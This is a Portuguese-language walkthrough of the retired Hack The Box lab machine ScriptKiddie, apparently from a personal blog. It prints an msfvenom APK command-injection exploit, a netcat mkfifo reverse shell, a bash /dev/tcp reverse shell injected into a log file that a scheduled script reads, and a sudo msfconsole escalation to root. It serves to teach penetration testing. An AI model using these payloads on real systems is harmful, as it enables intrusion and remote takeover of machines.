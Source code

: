 ```yaml
---
category: Walkthrough
date: 2021-06-05 16:00:00
header:
  og_image: https://i.imgur.com/Egv2O1k.png
  teaser: https://i.imgur.com/Egv2O1k.png
language: pt-BR
namespace: htb-scriptkiddie
redirect_from: /writeup/2021/06/htb-scriptkiddie
tags:
- HackTheBox
- HTB Easy
- HTB Linux
title: 'Walktrough: HTB ScriptKiddie'
---
```


Olá pessoal!

A máquina desta semana será **ScriptKiddie**, outra máquina Linux classificada como fácil do [Hack The Box](https://www.hackthebox.eu), criada por [0xdf](https://app.hackthebox.eu/users/4935).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![HTB ScriptKiddie](https://i.imgur.com/Igno8wu.png){: .align-center}

## Enumeração

Como de costume, iniciado enumeração com um scan rápido do `nmap` para verificar os serviços publicados nesta máquina.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.226                                                                   

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-24 14:05 -03
Nmap scan report for 10.10.10.226
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.94 seconds
```

### 5000/TCP - Serviço HTTP

Ao acessar a página notado algumas ferramentas a serem utilizadas por algum script kiddie como executar um scan utilizando o `nmap`, criar um payload no `msfvenom` e buscar por exploits utilizando o `searchsploit`.

Tentei diversas formas de injeção de código neste formulário, inclusive tentando algo automatizado como por exemplo a ferramenta [commixproject/commix](https://github.com/commixproject/commix) que encontrei no Github, porém sem sucesso desta vez.

Buscando por vulnerabilidades nas ferramentas utilizadas pela página (`nmap`, `msfvenom`, `searchsploit`), acabei encontrando uma relacionada ao `msfvenom`, conforme abaixo:

```bash
$ searchsploit msfvenom
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Metasploit Framework 6.0.11 - msfvenom APK template command injection | multiple/local/49491.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Aceso inicial e User flag

Alterado arquivo python com o payload desejado `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`, encontrei alguns erros durante a execução do binário `keytool`, uma vez que este tenta assinar um arquivo APK com o payload no Common Name mas, uma vez que existia um caracter `+` no conteúdo codificado em base64 na primeira iteração, precisei modificá-lo para codificá-lo novamente, gerando um payload desta vez com sucesso a ser enviado na ferramenta e utilizado na exploração da vulnerabilidade no portal:

```python
# Change me
payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
if '+' in payload_b64:
    payload_b64 = b64encode(payload_b64.encode()).decode()
    decode = '| base64 -d | base64 -d'
else:
    decode = '| base64 -d'

dname = f"CN='|echo -n {payload_b64} {decode} | sh #"
```

Abaixo podemos ver o output da criação do payload gerado, no caso o arquivo `evil.apk`

```bash
$ python3 49491.py                                                                                                               
[+] Manufacturing evil apkfile
Payload: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
-dname: CN='|echo -n Y20wZ0wzUnRjQzltTzIxclptbG1ieUF2ZEcxd0wyWTdZMkYwSUM5MGJYQXZabnd2WW1sdUwzTm9JQzFwSURJK0pqRjhibU1nTVRBdU1UQXVNVFF1TVRNMklEUTBORE1nUGk5MGJYQXZaZz09 | base64 -d | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning:
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk. This algorithm will be disabled in a future update.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk. This algorithm will be disabled in a future update.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpt7qr4ner/evil.apk
Do: msfvenom -x /tmp/tmpt7qr4ner/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```

Após gerado o arquivo APK contendo o payload, executado um request no portal com os dados sugeridos no final da execução do script anterior, apontando para o LHOST 127.0.0.1 e selecionando o tipo de payload android, que deverá ser traduzido para o payload `android/meterpreter/reverse_tcp`.

![Submiting the evil payload](https://i.imgur.com/Nvcj4BA.png){: .align-center}

Após clicar no botão **Generate**, um shell reverso foi retornado no listener inicializado previamente conforme especificado durante a criação do payload.

![reverse shell returned](https://i.imgur.com/llt85mf.png){: .align-center}

Nesta mesma sessão obtida, com as credenciais em que o aplicativo se encontrava em execução, no caso o usuário `kid`, foi possível obter a flag de usuário.

```bash
kid@scriptkiddie:~$ id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
kid@scriptkiddie:~$ cat /home/kid/user.txt
<redacted>
```

## Root flag

Depois de executar o `linenum.sh`, notado que existe outro usuário na máquina, `pwn`, e que tínhamos direito de leitura em seu perfil de diretório, o qual continha um arquivo chamado `scanloosers.sh` com o seguinte conteúdo:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Uma vez que este script lê o conteúdo de um arquivo localizado no perfil do usuário `kid` (`/home/kid/logs/hackers`), editado seu conteúdo com o valor abaixo, de modo que fosse possível injetar o código necessário para a obtenção de um novo shell reverso com a conta `pwn`, que aparentemente executaria este script de forma recorrente.

```bash
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' #" > ~/logs/hackers
```

Após definir o novo listener e alterar o arquivo `hackers`, um novo shell reverso foi retornado, desta vez com a conta `pwn` :smile:

Enumerando novamente a máquina, desta vez a partir da conta deste novo usuário utilizando o `linpeas.sh`, notei que este user possuía direitos de execução do `msfconsole` de modo privilegiado.

```plaintext
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Ao instanciar a console utilizando o `sudo`, pude executar comandos normalmente utilizando o privilégio de `root`, podendo assim ler o arquivo `/root/root.txt` e obter a flag final desta máquina

```bash
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q
msf6 > id
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
msf6 > cat /root/root.txt
[*] exec: cat /root/root.txt

<redacted>
msf6 >
```

Espero que tenham gostado!

Nos vemos no próximo post :smiley:
